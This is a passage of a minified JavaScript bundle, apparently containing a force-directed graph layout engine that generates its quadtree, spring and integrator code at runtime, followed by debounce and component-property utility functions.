M.push(r),r},getTotalMovement:function(){return 0},removeSpring:function(t){if(t){var e=M.indexOf(t);return e>-1?(M.splice(e,1),!0):void 0}},getBestNewBodyPosition:function(t){return E.getBestNewPosition(t)},getBBox:L,getBoundingBox:L,invalidateBBox:function(){console.warn(\"invalidateBBox() is deprecated, bounds always recomputed on `getBBox()` call\")},gravity:function(t){return void 0!==t?(l.gravity=t,S.options({gravity:t}),this):l.gravity},theta:function(t){return void 0!==t?(l.theta=t,S.options({theta:t}),this):l.theta},random:x};return function(t,e){for(var n in t)s(t,e,n)}(l,P),u(P),P;function L(){return E.update(),E.box}function D(t,e){if(C.has(t))throw new Error(\"Force \"+t+\" is already added\");C.set(t,e),A.push(e)}};var t=function(){if(Fc)return Hc.exports;Fc=1;const t=Gc();function e(t,e){return`\\n${i(t,e)}\\n${n(t)}\\nreturn {Body: Body, Vector: Vector};\\n`}function n(e){let n=t(e),i=n(\"{var}\",{join:\", \"});return`\\nfunction Body(${i}) {\\n  this.isPinned = false;\\n  this.pos = new Vector(${i});\\n  this.force = new Vector();\\n  this.velocity = new Vector();\\n  this.mass = 1;\\n\\n  this.springCount = 0;\\n  this.springLength = 0;\\n}\\n\\nBody.prototype.reset = function() {\\n  this.force.reset();\\n  this.springCount = 0;\\n  this.springLength = 0;\\n}\\n\\nBody.prototype.setPosition = function (${i}) {\\n  ${n(\"this.pos.{var} = {var} || 0;\",{indent:2})}\\n};`}function i(e,n){let i=t(e),r=\"\";return n&&(r=`${i(\"\\n\\t   var v{var};\\n\\tObject.defineProperty(this, '{var}', {\\n\\t  set: function(v) { \\n\\t    if (!Number.isFinite(v)) throw new Error('Cannot set non-numbers to {var}');\\n\\t    v{var} = v; \\n\\t  },\\n\\t  get: function() { return v{var}; }\\n\\t});\")}`),`function Vector(${i(\"{var}\",{join:\", \"})}) {\\n  ${r}\\n    if (typeof arguments[0] === 'object') {\\n      // could be another vector\\n      let v = arguments[0];\\n      ${i('if (!Number.isFinite(v.{var})) throw new Error(\"Expected value is not a finite number at Vector constructor ({var})\");',{indent:4})}\\n      ${i(\"this.{var} = v.{var};\",{indent:4})}\\n    } else {\\n      ${i('this.{var} = typeof {var} === \"number\" ? {var} : 0;',{indent:4})}\\n    }\\n  }\\n  \\n  Vector.prototype.reset = function () {\\n    ${i(\"this.{var} = \",{join:\"\"})}0;\\n  };`}return Hc.exports=function(t,n){let i=e(t,n),{Body:r}=new Function(i)();return r},Hc.exports.generateCreateBodyFunctionBody=e,Hc.exports.getVectorCode=i,Hc.exports.getBodyCode=n,Hc.exports}(),e=function(){if(jc)return Wc.exports;jc=1;const t=Gc(),e=Vc();function n(n){let l=t(n),c=Math.pow(2,n);return`\\n${s()}\\n${o(n)}\\n${i(n)}\\n${a(n)}\\n${r(n)}\\n\\nfunction createQuadTree(options, random) {\\n  options = options || {};\\n  options.gravity = typeof options.gravity === 'number' ? options.gravity : -1;\\n  options.theta = typeof options.theta === 'number' ? options.theta : 0.8;\\n\\n  var gravity = options.gravity;\\n  var updateQueue = [];\\n  var insertStack = new InsertStack();\\n  var theta = options.theta;\\n\\n  var nodesCache = [];\\n  var currentInCache = 0;\\n  var root = newNode();\\n\\n  return {\\n    insertBodies: insertBodies,\\n\\n    /**\\n     * Gets root node if it is present\\n     */\\n    getRoot: function() {\\n      return root;\\n    },\\n\\n    updateBodyForce: update,\\n\\n    options: function(newOptions) {\\n      if (newOptions) {\\n        if (typeof newOptions.gravity === 'number') {\\n          gravity = newOptions.gravity;\\n        }\\n        if (typeof newOptions.theta === 'number') {\\n          theta = newOptions.theta;\\n        }\\n\\n        return this;\\n      }\\n\\n      return {\\n        gravity: gravity,\\n        theta: theta\\n      };\\n    }\\n  };\\n\\n  function newNode() {\\n    // To avoid pressure on GC we reuse nodes.\\n    var node = nodesCache[currentInCache];\\n    if (node) {\\n${function(t){let e=[];for(let n=0;n<c;++n)e.push(`${t}quad${n} = null;`);return e.join(\"\\n\")}(\"      node.\")}\\n      node.body = null;\\n      node.mass = ${l(\"node.mass_{var} = \",{join:\"\"})}0;\\n      ${l(\"node.min_{var} = node.max_{var} = \",{join:\"\"})}0;\\n    } else {\\n      node = new QuadNode();\\n      nodesCache[currentInCache] = node;\\n    }\\n\\n    ++currentInCache;\\n    return node;\\n  }\\n\\n  function update(sourceBody) {\\n    var queue = updateQueue;\\n    var v;\\n    ${l(\"var d{var};\",{indent:4})}\\n    var r; \\n    ${l(\"var f{var} = 0;\",{indent:4})}\\n    var queueLength = 1;\\n    var shiftIdx = 0;\\n    var pushIdx = 1;\\n\\n    queue[0] = root;\\n\\n    while (queueLength) {\\n      var node = queue[shiftIdx];\\n      var body = node.body;\\n\\n      queueLength -= 1;\\n      shiftIdx += 1;\\n      var differentBody = (body !== sourceBody);\\n      if (body && differentBody) {\\n        // If the current node is a leaf node (and it is not source body),\\n        // calculate the force exerted by the current node on body, and add this\\n        // amount to body's net force.\\n        ${l(\"d{var} = body.pos.{var} - sourceBody.pos.{var};\",{indent:8})}\\n        r = Math.sqrt(${l(\"d{var} * d{var}\",{join:\" + \"})});\\n\\n        if (r === 0) {\\n          // Poor man's protection against zero distance.\\n          ${l(\"d{var} = (random.nextDouble() - 0.5) / 50;\",{indent:10})}\\n          r = Math.sqrt(${l(\"d{var} * d{var}\",{join:\" + \"})});\\n        }\\n\\n        // This is standard gravitation force calculation but we divide\\n        // by r^3 to save two operations when normalizing force vector.\\n        v = gravity * body.mass * sourceBody.mass / (r * r * r);\\n        ${l(\"f{var} += v * d{var};\",{indent:8})}\\n      } else if (differentBody) {\\n        // Otherwise, calculate the ratio s / r,  where s is the width of the region\\n        // represented by the internal node, and r is the distance between the body\\n        // and the node's center-of-mass\\n        ${l(\"d{var} = node.mass_{var} / node.mass - sourceBody.pos.{var};\",{indent:8})}\\n        r = Math.sqrt(${l(\"d{var} * d{var}\",{join:\" + \"})});\\n\\n        if (r === 0) {\\n          // Sorry about code duplication. I don't want to create many functions\\n          // right away. Just want to see performance first.\\n          ${l(\"d{var} = (random.nextDouble() - 0.5) / 50;\",{indent:10})}\\n          r = Math.sqrt(${l(\"d{var} * d{var}\",{join:\" + \"})});\\n        }\\n        // If s / r < θ, treat this internal node as a single body, and calculate the\\n        // force it exerts on sourceBody, and add this amount to sourceBody's net force.\\n        if ((node.max_${e(0)} - node.min_${e(0)}) / r < theta) {\\n          // in the if statement above we consider node's width only\\n          // because the region was made into square during tree creation.\\n          // Thus there is no difference between using width or height.\\n          v = gravity * node.mass * sourceBody.mass / (r * r * r);\\n          ${l(\"f{var} += v * d{var};\",{indent:10})}\\n        } else {\\n          // Otherwise, run the procedure recursively on each of the current node's children.\\n\\n          // I intentionally unfolded this loop, to save several CPU cycles.\\n${function(){let t=Array(11).join(\" \"),e=[];for(let n=0;n<c;++n)e.push(t+`if (node.quad${n}) {`),e.push(t+`  queue[pushIdx] = node.quad${n};`),e.push(t+\"  queueLength += 1;\"),e.push(t+\"  pushIdx += 1;\"),e.push(t+\"}\");return e.join(\"\\n\")}()}\\n        }\\n      }\\n    }\\n\\n    ${l(\"sourceBody.force.{var} += f{var};\",{indent:4})}\\n  }\\n\\n  function insertBodies(bodies) {\\n    ${l(\"var {var}min = Number.MAX_VALUE;\",{indent:4})}\\n    ${l(\"var {var}max = Number.MIN_VALUE;\",{indent:4})}\\n    var i = bodies.length;\\n\\n    // To reduce quad tree depth we are looking for exact bounding box of all particles.\\n    while (i--) {\\n      var pos = bodies[i].pos;\\n      ${l(\"if (pos.{var} < {var}min) {var}min = pos.{var};\",{indent:6})}\\n      ${l(\"if (pos.{var} > {var}max) {var}max = pos.{var};\",{indent:6})}\\n    }\\n\\n    // Makes the bounds square.\\n    var maxSideLength = -Infinity;\\n    ${l(\"if ({var}max - {var}min > maxSideLength) maxSideLength = {var}max - {var}min ;\",{indent:4})}\\n\\n    currentInCache = 0;\\n    root = newNode();\\n    ${l(\"root.min_{var} = {var}min;\",{indent:4})}\\n    ${l(\"root.max_{var} = {var}min + maxSideLength;\",{indent:4})}\\n\\n    i = bodies.length - 1;\\n    if (i >= 0) {\\n      root.body = bodies[i];\\n    }\\n    while (i--) {\\n      insert(bodies[i], root);\\n    }\\n  }\\n\\n  function insert(newBody) {\\n    insertStack.reset();\\n    insertStack.push(root, newBody);\\n\\n    while (!insertStack.isEmpty()) {\\n      var stackItem = insertStack.pop();\\n      var node = stackItem.node;\\n      var body = stackItem.body;\\n\\n      if (!node.body) {\\n        // This is internal node. Update the total mass of the node and center-of-mass.\\n        ${l(\"var {var} = body.pos.{var};\",{indent:8})}\\n        node.mass += body.mass;\\n        ${l(\"node.mass_{var} += body.mass * {var};\",{indent:8})}\\n\\n        // Recursively insert the body in the appropriate quadrant.\\n        // But first find the appropriate quadrant.\\n        var quadIdx = 0; // Assume we are in the 0's quad.\\n        ${l(\"var min_{var} = node.min_{var};\",{indent:8})}\\n        ${l(\"var max_{var} = (min_{var} + node.max_{var}) / 2;\",{indent:8})}\\n\\n${function(){let t=[],i=Array(8+1).join(\" \");for(let r=0;r<n;++r)t.push(i+`if (${e(r)} > max_${e(r)}) {`),t.push(i+`  quadIdx = quadIdx + ${Math.pow(2,r)};`),t.push(i+`  min_${e(r)} = max_${e(r)};`),t.push(i+`  max_${e(r)} = node.max_${e(r)};`),t.push(i+\"}\");return t.join(\"\\n\")}()}\\n\\n        var child = getChild(node, quadIdx);\\n\\n        if (!child) {\\n          // The node is internal but this quadrant is not taken. Add\\n          // subnode to it.\\n          child = newNode();\\n          ${l(\"child.min_{var} = min_{var};\",{indent:10})}\\n          ${l(\"child.max_{var} = max_{var};\",{indent:10})}\\n          child.body = body;\\n\\n          setChild(node, quadIdx, child);\\n        } else {\\n          // continue searching in this quadrant.\\n          insertStack.push(child, body);\\n        }\\n      } else {\\n        // We are trying to add to the leaf node.\\n        // We have to convert current leaf into internal node\\n        // and continue adding two nodes.\\n        var oldBody = node.body;\\n        node.body = null; // internal nodes do not cary bodies\\n\\n        if (isSamePosition(oldBody.pos, body.pos)) {\\n          // Prevent infinite subdivision by bumping one node\\n          // anywhere in this quadrant\\n          var retriesCount = 3;\\n          do {\\n            var offset = random.nextDouble();\\n            ${l(\"var d{var} = (node.max_{var} - node.min_{var}) * offset;\",{indent:12})}\\n\\n            ${l(\"oldBody.pos.{var} = node.min_{var} + d{var};\",{indent:12})}\\n            retriesCount -= 1;\\n            // Make sure we don't bump it out of the box. If we do, next iteration should fix it\\n          } while (retriesCount > 0 && isSamePosition(oldBody.pos, body.pos));\\n\\n          if (retriesCount === 0 && isSamePosition(oldBody.pos, body.pos)) {\\n            // This is very bad, we ran out of precision.\\n            // if we do not return from the method we'll get into\\n            // infinite loop here. So we sacrifice correctness of layout, and keep the app running\\n            // Next layout iteration should get larger bounding box in the first step and fix this\\n            return;\\n          }\\n        }\\n        // Next iteration should subdivide node further.\\n        insertStack.push(node, oldBody);\\n        insertStack.push(node, body);\\n      }\\n    }\\n  }\\n}\\nreturn createQuadTree;\\n\\n`}function i(e){let n=t(e);return`\\n  function isSamePosition(point1, point2) {\\n    ${n(\"var d{var} = Math.abs(point1.{var} - point2.{var});\",{indent:2})}\\n  \\n    return ${n(\"d{var} < 1e-8\",{join:\" && \"})};\\n  }  \\n`}function r(t){var e=Math.pow(2,t);return`\\nfunction setChild(node, idx, child) {\\n  ${function(){let t=[];for(let n=0;n<e;++n){let e=0===n?\"  \":\"  else \";t.push(`${e}if (idx === ${n}) node.quad${n} = child;`)}return t.join(\"\\n\")}()}\\n}`}function a(t){return`function getChild(node, idx) {\\n${function(){let e=[],n=Math.pow(2,t);for(let t=0;t<n;++t)e.push(`  if (idx === ${t}) return node.quad${t};`);return e.join(\"\\n\")}()}\\n  return null;\\n}`}function o(e){let n=t(e),i=Math.pow(2,e);return`\\nfunction QuadNode() {\\n  // body stored inside this node. In quad tree only leaf nodes (by construction)\\n  // contain bodies:\\n  this.body = null;\\n\\n  // Child nodes are stored in quads. Each quad is presented by number:\\n  // 0 | 1\\n  // -----\\n  // 2 | 3\\n${function(t){let e=[];for(let n=0;n<i;++n)e.push(`${t}quad${n} = null;`);return e.join(\"\\n\")}(\"  this.\")}\\n\\n  // Total mass of current node\\n  this.mass = 0;\\n\\n  // Center of mass coordinates\\n  ${n(\"this.mass_{var} = 0;\",{indent:2})}\\n\\n  // bounding box coordinates\\n  ${n(\"this.min_{var} = 0;\",{indent:2})}\\n  ${n(\"this.max_{var} = 0;\",{indent:2})}\\n}\\n`}function s(){return\"\\n/**\\n * Our implementation of QuadTree is non-recursive to avoid GC hit\\n * This data structure represent stack of elements\\n * which we are trying to insert into quad tree.\\n */\\nfunction InsertStack () {\\n    this.stack = [];\\n    this.popIdx = 0;\\n}\\n\\nInsertStack.prototype = {\\n    isEmpty: function() {\\n        return this.popIdx === 0;\\n    },\\n    push: function (node, body) {\\n        var item = this.stack[this.popIdx];\\n        if (!item) {\\n            // we are trying to avoid memory pressure: create new element\\n            // only when absolutely necessary\\n            this.stack[this.popIdx] = new InsertStackElement(node, body);\\n        } else {\\n            item.node = node;\\n            item.body = body;\\n        }\\n        ++this.popIdx;\\n    },\\n    pop: function () {\\n        if (this.popIdx > 0) {\\n            return this.stack[--this.popIdx];\\n        }\\n    },\\n    reset: function () {\\n        this.popIdx = 0;\\n    }\\n};\\n\\nfunction InsertStackElement(node, body) {\\n    this.node = node; // QuadTree node\\n    this.body = body; // physical body which needs to be inserted to node\\n}\\n\"}return Wc.exports=function(t){let e=n(t);return new Function(e)()},Wc.exports.generateQuadTreeFunctionBody=n,Wc.exports.getInsertStackCode=s,Wc.exports.getQuadNodeCode=o,Wc.exports.isSamePosition=i,Wc.exports.getChildBodyCode=a,Wc.exports.setChildBodyCode=r,Wc.exports}(),n=function(){if(Xc)return qc.exports;Xc=1,qc.exports=function(t){let n=e(t);return new Function(\"bodies\",\"settings\",\"random\",n)},qc.exports.generateFunctionBody=e;const t=Gc();function e(e){let n=t(e);return`\\n  var boundingBox = {\\n    ${n(\"min_{var}: 0, max_{var}: 0,\",{indent:4})}\\n  };\\n\\n  return {\\n    box: boundingBox,\\n\\n    update: updateBoundingBox,\\n\\n    reset: resetBoundingBox,\\n\\n    getBestNewPosition: function (neighbors) {\\n      var ${n(\"base_{var} = 0\",{join:\", \"})};\\n\\n      if (neighbors.length) {\\n        for (var i = 0; i < neighbors.length; ++i) {\\n          let neighborPos = neighbors[i].pos;\\n          ${n(\"base_{var} += neighborPos.{var};\",{indent:10})}\\n        }\\n\\n        ${n(\"base_{var} /= neighbors.length;\",{indent:8})}\\n      } else {\\n        ${n(\"base_{var} = (boundingBox.min_{var} + boundingBox.max_{var}) / 2;\",{indent:8})}\\n      }\\n\\n      var springLength = settings.springLength;\\n      return {\\n        ${n(\"{var}: base_{var} + (random.nextDouble() - 0.5) * springLength,\",{indent:8})}\\n      };\\n    }\\n  };\\n\\n  function updateBoundingBox() {\\n    var i = bodies.length;\\n    if (i === 0) return; // No bodies - no borders.\\n\\n    ${n(\"var max_{var} = -Infinity;\",{indent:4})}\\n    ${n(\"var min_{var} = Infinity;\",{indent:4})}\\n\\n    while(i--) {\\n      // this is O(n), it could be done faster with quadtree, if we check the root node bounds\\n      var bodyPos = bodies[i].pos;\\n      ${n(\"if (bodyPos.{var} < min_{var}) min_{var} = bodyPos.{var};\",{indent:6})}\\n      ${n(\"if (bodyPos.{var} > max_{var}) max_{var} = bodyPos.{var};\",{indent:6})}\\n    }\\n\\n    ${n(\"boundingBox.min_{var} = min_{var};\",{indent:4})}\\n    ${n(\"boundingBox.max_{var} = max_{var};\",{indent:4})}\\n  }\\n\\n  function resetBoundingBox() {\\n    ${n(\"boundingBox.min_{var} = boundingBox.max_{var} = 0;\",{indent:4})}\\n  }\\n`}return qc.exports}(),i=function(){if(Yc)return Kc.exports;Yc=1;const t=Gc();function e(e){return`\\n  if (!Number.isFinite(options.dragCoefficient)) throw new Error('dragCoefficient is not a finite number');\\n\\n  return {\\n    update: function(body) {\\n      ${t(e)(\"body.force.{var} -= options.dragCoefficient * body.velocity.{var};\",{indent:6})}\\n    }\\n  };\\n`}return Kc.exports=function(t){let n=e(t);return new Function(\"options\",n)},Kc.exports.generateCreateDragForceFunctionBody=e,Kc.exports}(),r=function(){if(Zc)return $c.exports;Zc=1;const t=Gc();function e(e){let n=t(e);return`\\n  if (!Number.isFinite(options.springCoefficient)) throw new Error('Spring coefficient is not a number');\\n  if (!Number.isFinite(options.springLength)) throw new Error('Spring length is not a number');\\n\\n  return {\\n    /**\\n     * Updates forces acting on a spring\\n     */\\n    update: function (spring) {\\n      var body1 = spring.from;\\n      var body2 = spring.to;\\n      var length = spring.length < 0 ? options.springLength : spring.length;\\n      ${n(\"var d{var} = body2.pos.{var} - body1.pos.{var};\",{indent:6})}\\n      var r = Math.sqrt(${n(\"d{var} * d{var}\",{join:\" + \"})});\\n\\n      if (r === 0) {\\n        ${n(\"d{var} = (random.nextDouble() - 0.5) / 50;\",{indent:8})}\\n        r = Math.sqrt(${n(\"d{var} * d{var}\",{join:\" + \"})});\\n      }\\n\\n      var d = r - length;\\n      var coefficient = ((spring.coefficient > 0) ? spring.coefficient : options.springCoefficient) * d / r;\\n\\n      ${n(\"body1.force.{var} += coefficient * d{var}\",{indent:6})};\\n      body1.springCount += 1;\\n      body1.springLength += r;\\n\\n      ${n(\"body2.force.{var} -= coefficient * d{var}\",{indent:6})};\\n      body2.springCount += 1;\\n      body2.springLength += r;\\n    }\\n  };\\n`}return $c.exports=function(t){let n=e(t);return new Function(\"options\",\"random\",n)},$c.exports.generateCreateSpringForceFunctionBody=e,$c.exports}(),a=function(){if(Jc)return ih.exports;Jc=1;const t=Gc();function e(e){let n=t(e);return`\\n  var length = bodies.length;\\n  if (length === 0) return 0;\\n\\n  ${n(\"var d{var} = 0, t{var} = 0;\",{indent:2})}\\n\\n  for (var i = 0; i < length; ++i) {\\n    var body = bodies[i];\\n    if (body.isPinned) continue;\\n\\n    if (adaptiveTimeStepWeight && body.springCount) {\\n      timeStep = (adaptiveTimeStepWeight * body.springLength/body.springCount);\\n    }\\n\\n    var coeff = timeStep / body.mass;\\n\\n    ${n(\"body.velocity.{var} += coeff * body.force.{var};\",{indent:4})}\\n    ${n(\"var v{var} = body.velocity.{var};\",{indent:4})}\\n    var v = Math.sqrt(${n(\"v{var} * v{var}\",{join:\" + \"})});\\n\\n    if (v > 1) {\\n      // We normalize it so that we move within timeStep range. \\n      // for the case when v <= 1 - we let velocity to fade out.\\n      ${n(\"body.velocity.{var} = v{var} / v;\",{indent:6})}\\n    }\\n\\n    ${n(\"d{var} = timeStep * body.velocity.{var};\",{indent:4})}\\n\\n    ${n(\"body.pos.{var} += d{var};\",{indent:4})}\\n\\n    ${n(\"t{var} += Math.abs(d{var});\",{indent:4})}\\n  }\\n\\n  return (${n(\"t{var} * t{var}\",{join:\" + \"})})/length;\\n`}return ih.exports=function(t){let n=e(t);return new Function(\"bodies\",\"timeStep\",\"adaptiveTimeStepWeight\",n)},ih.exports.generateIntegratorFunctionBody=e,ih.exports}(),o={};function s(t,e,n){if(t.hasOwnProperty(n)&&\"function\"!=typeof e[n]){var i=Number.isFinite(t[n]);e[n]=i?function(i){if(void 0!==i){if(!Number.isFinite(i))throw new Error(\"Value of \"+n+\" should be a valid number.\");return t[n]=i,e}return t[n]}:function(i){return void 0!==i?(t[n]=i,e):t[n]}}}return ah}var hh=function(){if(sh)return Bc.exports;sh=1,Bc.exports=function(n,i){if(!n)throw new Error(\"Graph structure cannot be undefined\");var r=(i&&i.createSimulator||ch())(i);if(Array.isArray(i))throw new Error(\"Physics settings is expected to be an object\");var a=n.version>19?function(t){var e=n.getLinks(t);return e?1+e.size/3:1}:function(t){var e=n.getLinks(t);return e?1+e.length/3:1};i&&\"function\"==typeof i.nodeMass&&(a=i.nodeMass);var o=new Map,s={},l=0,c=r.settings.springTransform||e;l=0,n.forEachNode((function(t){m(t.id),l+=1})),n.forEachLink(_),n.on(\"changed\",f);var h=!1,u={step:function(){if(0===l)return d(!0),!0;var t=r.step();u.lastMove=t,u.fire(\"step\");var e=t/l<=.01;return d(e),e},getNodePosition:function(t){return x(t).pos},setNodePosition:function(t){var e=x(t);e.setPosition.apply(e,Array.prototype.slice.call(arguments,1))},getLinkPosition:function(t){var e=s[t];if(e)return{from:e.from.pos,to:e.to.pos}},getGraphRect:function(){return r.getBBox()},forEachBody:p,pinNode:function(t,e){x(t.id).isPinned=!!e},isNodePinned:function(t){return x(t.id).isPinned},dispose:function(){n.off(\"changed\",f),u.fire(\"disposed\")},getBody:function(t){return o.get(t)},getSpring:function(t,e){var i;if(void 0===e)i=\"object\"!=typeof t?t:t.id;else{var r=n.hasLink(t,e);if(!r)return;i=r.id}return s[i]},getForceVectorLength:function(){var t=0,e=0;return p((function(n){t+=Math.abs(n.force.x),e+=Math.abs(n.force.y)})),Math.sqrt(t*t+e*e)},simulator:r,graph:n,lastMove:0};return t(u),u;function d(t){var e;h!==t&&(h=t,e=t,u.fire(\"stable\",e))}function p(t){o.forEach(t)}function f(t){for(var e=0;e<t.length;++e){var i=t[e];\"add\"===i.changeType?(i.node&&m(i.node.id),i.link&&_(i.link)):\"remove\"===i.changeType&&(i.node&&g(i.node),i.link&&v(i.link))}l=n.getNodesCount()}function m(t){var e=o.get(t);if(!e){var i=n.getNode(t);if(!i)throw new Error(\"initBody() was called with unknown node id\");var a=i.position;if(!a){var s=function(t){var e=[];if(!t.links)return e;for(var n=Math.min(t.links.length,2),i=0;i<n;++i){var r=t.links[i],a=r.fromId!==t.id?o.get(r.fromId):o.get(r.toId);a&&a.pos&&e.push(a)}return e}(i);a=r.getBestNewBodyPosition(s)}(e=r.addBodyAt(a)).id=t,o.set(t,e),y(t),function(t){return t&&(t.isPinned||t.data&&t.data.isPinned)}(i)&&(e.isPinned=!0)}}function g(t){var e=t.id,n=o.get(e);n&&(o.delete(e),r.removeBody(n))}function _(t){y(t.fromId),y(t.toId);var e=o.get(t.fromId),n=o.get(t.toId),i=r.addSpring(e,n,t.length);c(t,i),s[t.id]=i}function v(t){var e=s[t.id];if(e){var i=n.getNode(t.fromId),a=n.getNode(t.toId);i&&y(i.id),a&&y(a.id),delete s[t.id],r.removeSpring(e)}}function y(t){var e=o.get(t);if(e.mass=a(t),Number.isNaN(e.mass))throw new Error(\"Node mass should be a number\")}function x(t){var e=o.get(t);return e||(m(t),e=o.get(t)),e}},Bc.exports.simulator=ch();var t=Dc();function e(){}return Bc.exports}(),uh=Lc(hh);function dh(t){var e=typeof t;return null!=t&&(\"object\"==e||\"function\"==e)}var ph=\"object\"==typeof global&&global&&global.Object===Object&&global,fh=\"object\"==typeof self&&self&&self.Object===Object&&self,mh=ph||fh||Function(\"return this\")(),gh=function(){return mh.Date.now()},_h=/\\s/;var vh=/^\\s+/;function yh(t){return t?t.slice(0,function(t){for(var e=t.length;e--&&_h.test(t.charAt(e)););return e}(t)+1).replace(vh,\"\"):t}var xh=mh.Symbol,bh=Object.prototype,Mh=bh.hasOwnProperty,Sh=bh.toString,Eh=xh?xh.toStringTag:void 0;var wh=Object.prototype.toString;var Th=xh?xh.toStringTag:void 0;function Ah(t){return null==t?void 0===t?\"[object Undefined]\":\"[object Null]\":Th&&Th in Object(t)?function(t){var e=Mh.call(t,Eh),n=t[Eh];try{t[Eh]=void 0;var i=!0}catch(t){}var r=Sh.call(t);return i&&(e?t[Eh]=n:delete t[Eh]),r}(t):function(t){return wh.call(t)}(t)}var Ch=/^[-+]0x[0-9a-f]+$/i,Rh=/^0b[01]+$/i,Ph=/^0o[0-7]+$/i,Lh=parseInt;function Dh(t){if(\"number\"==typeof t)return t;if(function(t){return\"symbol\"==typeof t||function(t){return null!=t&&\"object\"==typeof t}(t)&&\"[object Symbol]\"==Ah(t)}(t))return NaN;if(dh(t)){var e=\"function\"==typeof t.valueOf?t.valueOf():t;t=dh(e)?e+\"\":e}if(\"string\"!=typeof t)return 0===t?t:+t;t=yh(t);var n=Rh.test(t);return n||Ph.test(t)?Lh(t.slice(2),n?2:8):Ch.test(t)?NaN:+t}var Ih=Math.max,Oh=Math.min;function Uh(t,e,n){var i,r,a,o,s,l,c=0,h=!1,u=!1,d=!0;if(\"function\"!=typeof t)throw new TypeError(\"Expected a function\");function p(e){var n=i,a=r;return i=r=void 0,c=e,o=t.apply(a,n)}function f(t){var n=t-l;return void 0===l||n>=e||n<0||u&&t-c>=a}function m(){var t=gh();if(f(t))return g(t);s=setTimeout(m,function(t){var n=e-(t-l);return u?Oh(n,a-(t-c)):n}(t))}function g(t){return s=void 0,d&&i?p(t):(i=r=void 0,o)}function _(){var t=gh(),n=f(t);if(i=arguments,r=this,l=t,n){if(void 0===s)return function(t){return c=t,s=setTimeout(m,e),h?p(t):o}(l);if(u)return clearTimeout(s),s=setTimeout(m,e),p(l)}return void 0===s&&(s=setTimeout(m,e)),o}return e=Dh(e)||0,dh(n)&&(h=!!n.leading,a=(u=\"maxWait\"in n)?Ih(Dh(n.maxWait)||0,e):a,d=\"trailing\"in n?!!n.trailing:d),_.cancel=function(){void 0!==s&&clearTimeout(s),c=0,i=l=r=s=void 0},_.flush=function(){return void 0===s?o:g(gh())},_}function Nh(t,e,n){return Object.defineProperty(t,\"prototype\",{writable:!1}),t}function Fh(t,e){return function(t){if(Array.isArray(t))return t}(t)||function(t,e){var n=null==t?null:\"undefined\"!=typeof Symbol&&t[Symbol.iterator]||t[\"@@iterator\"];if(null!=n){var i,r,a,o,s=[],l=!0,c=!1;try{if(a=(n=n.call(t)).next,0===e);else for(;!(l=(i=a.call(n)).done)&&(s.push(i.value),s.length!==e);l=!0);}catch(t){c=!0,r=t}finally{try{if(!l&&null!=n.return&&(o=n.return(),Object(o)!==o))return}finally{if(c)throw r}}return s}}(t,e)||function(t,e){if(!t)return;if(\"string\"==typeof t)return kh(t,e);var n=Object.prototype.toString.call(t).slice(8,-1);\"Object\"===n&&t.constructor&&(n=t.constructor.name);if(\"Map\"===n||\"Set\"===n)return Array.from(t);if(\"Arguments\"===n||/^(?:Ui|I)nt(?:8|16|32)(?:Clamped)?Array$/.test(n))return kh(t,e)}(t,e)||function(){throw new TypeError(\"Invalid attempt to destructure non-iterable instance.\\nIn order to be iterable, non-array objects must have a [Symbol.iterator]() method.\")}()}function kh(t,e){(null==e||e>t.length)&&(e=t.length);for(var n=0,i=new Array(e);n<e;n++)i[n]=t[n];return i}var zh=Nh((function t(e,n){var i=n.default,r=void 0===i?null:i,a=n.triggerUpdate,o=void 0===a||a,s=n.onChange,l=void 0===s?function(t,e){}:s;!function(t,e){if(!(t instanceof e))throw new TypeError(\"Cannot call a class as a function\")}(this,t),this.name=e,this.defaultVal=r,this.triggerUpdate=o,this.onChange=l}));function Bh(t){var e=t.stateInit,n=void 0===e?function(){return{}}:e,i=t.props,r=void 0===i?{}:i,a=t.methods,o=void 0===a?{}:a,s=t.aliases,l=void 0===s?{}:s,c=t.init,h=void 0===c?function(){}:c,u=t.update,d=void 0===u?function(){}:u,p=Object.keys(r).map((function(t){return new zh(t,r[t])}));return function(){var t=arguments.length>0&&void 0!==arguments[0]?arguments[0]:{},e=Object.assign({},n instanceof Function?n(t):n,{initialised:!1}),i={};function r(e){return a(e,t),s(),r}var a=function(t,n){h.call(r,t,e,n),e.initialised=!0},s=Uh((function(){e.initialised&&(d.call(r,e,i),i={})}),1);return p.forEach((function(t){r[t.name]=function(t){var n=t.name,a=t.triggerUpdate,o=void 0!==a&&a,l=t.onChange,c=void 0===l?function(t,e){}:l,h=t.defaultVal,u=void 0===h?null:h;return function(t){var a=e[n];if(!arguments.length)return a;var l=void 0===t?u:t;return e[n]=l,c.call(r,l,e,a),!i.hasOwnProperty(n)&&(i[n]=a),o&&s(),r}}(t)})),Object.keys(o).forEach((function(t){r[t]=function(){for(var n,i=arguments.length,a=new Array(i),s=0;s<i;s++)a[s]=arguments[s];return(n=o[t]).call.apply(n,[r,e].concat(a))}})),Object.entries(l).forEach((function(t){var e=Fh(t,2),n=e[0],i=e[1];return r[n]=r[i]})),r.resetProps=function(){return p.forEach((function(t){r[t.name](t.defaultVal)})),r},r.resetProps(),e._rerender=s,r}}var Hh=function(t){return\"function\"==typeof t?t:\"string\"==typeof t?function(e){return e[t]}:function(e){return t}};class Vh extends Map{constructor(t,e=jh){if(super(),Object.defineProperties(this,{_intern:{value:new Map},_key:{value:e}}),null!=t)for(const[e,n]of t)this.set(e,n)}get(t){return super.get(Gh(this,t))}has(t){return super.has(Gh(this,t))}set(t,e){return super.set(function({_intern:t,_key:e},n){const i=e(n);return t.has(i)?t.get(i):(t.set(i,n),n)}(this,t),e)}delete(t){return super.delete(function({_intern:t,_key:e},n){const i=e(n);t.has(i)&&(n=t.get(i),t.delete(i));return n}(this,t))}}function Gh({_intern:t,_key:e},n){const i=e(n);return t.has(i)?t.get(i):n}function jh(t){return null!==t&&\"object\"==typeof t?t.valueOf():t}function Wh(t,e){let n;if(void 0===e)for(const e of t)null!=e&&(n<e||void 0===n&&e>=e)&&(n=e);else{let i=-1;for(let r of t)null!=(r=e(r,++i,t))&&(n<r||void 0===n&&r>=r)&&(n=r)}return n}function Xh(t,e){let n;if(void 0===e)for(const e of t)null!=e&&(n>e||void 0===n&&e>=e)&&(n=e);else{let i=-1;for(let r of t)null!=(r=e(r,++i,t))&&(n>r||void 0===n&&r>=r)&&(n=r)}return n}function qh(t,e){(null==e||e>t.length)&&(e=t.length);for(var n=0,i=Array(e);n<e;n++)i[n]=t[n];return i}function Yh(t,e){return function(t){if(Array.isArray(t))return t}(t)||function(t,e){var n=null==t?null:\"undefined\"!=typeof Symbol&&t[Symbol.iterator]||t[\"@@iterator\"];if(null!=n){var 